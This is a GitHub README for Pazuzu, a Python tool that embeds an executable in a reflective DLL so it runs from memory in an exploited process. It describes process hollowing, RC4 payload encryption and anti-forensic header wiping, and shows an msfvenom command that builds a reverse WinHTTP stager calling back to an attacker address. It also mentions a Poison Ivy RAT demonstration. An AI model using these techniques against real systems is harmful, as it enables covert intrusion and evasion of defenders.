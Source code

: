 # Pazuzu
Pazuzu is a Python script that allows you to embed a binary within a precompiled DLL which uses reflective DLL injection.
The goal is that you can run your own binary directly from memory. This can be useful in various scenarios. 

For example, if you want to exploit a vulnerability and run your own executable instead of a third party reflective DLL. In this case you just have to choose the stager you like (reverse TCP, HTTP, HTTPS, etc.) and set the DLL generated by Pazuzu. Pazuzu  will execute the binary within the address space of the vulnerable process as long as it has the .reloc section.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/reloc.png "Reloc")

**Restrictions**
 
* Not all binaries can be run from memory. For example, applications which require .NET CLR (managed code) won't be run. I will try to implement this in an upcoming version. By now you can download and run .NET application from disk with the -d option (noisy option).
* If .reloc section is not present the script will use a "process hollowing" approach.
* Support for 32-bit for now.

**How-to**
* The script Pazuzu.py accepts as input the binary you want to run from memory (parameter **-f**). Depending on the properties of the binary Pazuzu will choose one of the 3 DLL currently available. These DLL are:
  1. **reloc­x86.dll**: lets you run the binary inside the address space of the process. This option is the most favorable since the binary generates less "noise" in the system. 
  2. **dforking­x86.dll**: the binary in this case also runs from memory but using "process hollowing". This technique is the one used by the ["execute" command with the -m flag](https://community.rapid7.com/community/metasploit/blog/2012/05/08/eternal-sunshine-of-the-spotless-ram) in Meterpreter.
  3. **download­86.dll**: this is the noisiest option since the binary will be downloaded and executed from disk.

* Pazuzu also provides some additional features. For example, the **-x** option will encrypt the section containing the binary by using a random RC4 key (which is stored in the DLL TimeStamp). In addition, after running it the PE header of the DLL and the binary section will be overwritten with zeros. I will add more anti-forensic techniques in future versions.
* With the **-p** option the resulting DLL will be patched with the bootstrap required to reach the export ReflectiveLoader (more info in [www.shelliscoming.com](http://www.shelliscoming.com/2015/05/reflectpatcherpy-python-script-to-patch_11.html)). This option is useful to not depend on the Metasploit handler to inject the DLL. That is, if the DLL is already patched we can upload it to a Web server so that the stager could retrieve it from there (more anonymity).

**Examples**
* To get the Pazuzu DLL I will use a WinHTTP stager:
```
root@kali:~# msfvenom -p windows/dllinject/reverse_winhttp lhost=192.168.1.44 lport=8080 dll=. -f exe -o Winhttp-stager.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 908 bytes
Saved as: Winhttp-stager.exe
```
Let's run Pazuzu.py with the regshot.exe binary (.section present):

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo1.png "Regshot.exe (.reloc present)")

Let's run it now with the verbose option to see more detailed information:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo2.png "Verbose output")

In the next example I use putty.exe which has no reloc section. I have chosen the system binary "c:\windows\write.exe" (option **-k**) to be "hollowed out" and I have encrypted the binary section with RC4 (option **-x**). The hidden option **-m** just run msfvenom with a winhttp dllinject stager.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo3.png "Putty.exe (no .reloc present)")

 Here the Process Explorer output:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/png/ejemplo3-1.png "Putty.exe (Process Explorer)")

**Video**
* Watch the following video to see a practical example with the Poison Ivy RAT [Video Pazuzu: www.shellsicoming.com] (https://www.youtube.com/watch?v=2OcEbMgQiVo)

**Disclaimer**
* This tool is meant for educational purposes only.
